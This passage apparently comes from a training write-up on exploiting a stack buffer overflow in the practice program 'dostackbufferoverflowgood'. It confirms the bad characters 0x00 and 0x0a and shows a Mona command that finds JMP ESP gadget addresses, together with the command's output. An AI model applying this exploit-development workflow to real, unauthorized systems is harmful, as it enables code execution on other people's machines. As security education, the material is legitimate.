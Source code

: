 ![Mona compares ESP success](/assets/images/dostackbufferoverflowgood/1.f%20Mona%20compares%20ESP%20success.png)

We now have the message in Mona that the status of `ESP` is unmodified. So we can continue with developing our exploit with `0x00` and `0x0a` as our bad characters.

## Find JMP ESP

We can overwrite `EIP` and we have space for our payload in `ESP` but this isn't enough for code execution yet. We need a `JMP ESP` or `CALL ESP` so our payload in `ESP` is executed instead of the application crashing.

```bash
!mona jmp -r esp -cpb "\x00\x0a"
 Message=  0x080414c3 : jmp esp |  {PAGE_EXECUTE_READ} [dostackbufferoverflowgood.exe] ASLR: False, Rebase: False, SafeSEH: True, OS: False, v-1.0-(C:\Users\User\Documents\dostackbufferoverflowgood\dostackbufferoverflowgood.exe)
 Message=  0x080416bf : jmp esp |  {PAGE_EXECUTE_READ} [dostackbufferoverflowgood.exe] ASLR: False, Rebase: False, SafeSEH: True, OS: False, v-1.0-(C:\Users\User\Documents\dostackbufferoverflowgood\dostackbufferoverflowgood.exe)
```
